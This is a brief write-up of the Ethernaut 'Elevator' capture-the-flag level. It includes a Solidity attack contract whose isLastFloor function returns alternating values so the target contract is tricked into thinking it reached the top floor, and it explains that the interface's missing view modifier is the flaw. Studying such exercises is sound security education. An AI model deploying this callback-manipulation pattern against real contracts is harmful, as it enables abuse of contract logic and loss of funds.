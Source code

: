 # [Elevator](https://ethernaut.openzeppelin.com/level/0xaB4F3F2644060b2D960b0d88F0a42d1D27484687)

In this level, we will write the `Builder` contract which the elevator interacts with. However, in the same transaction we will return opposite boolean results for `isLastFloor` function.

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;

interface Elevator {
  function goTo(uint _floor) external;    
}

contract Building {
  bool toggleMe = true;
  
  function isLastFloor(uint) external returns (bool) {
    toggleMe = !toggleMe;
    return toggleMe;
  }

  function callElevator(address _elevator) public {
    Elevator(_elevator).goTo(1);
  }

}
```

The problem here is that Elevator did not specify `isLastFloor` to be a `view` function, which would prevent us from modifying the state like this.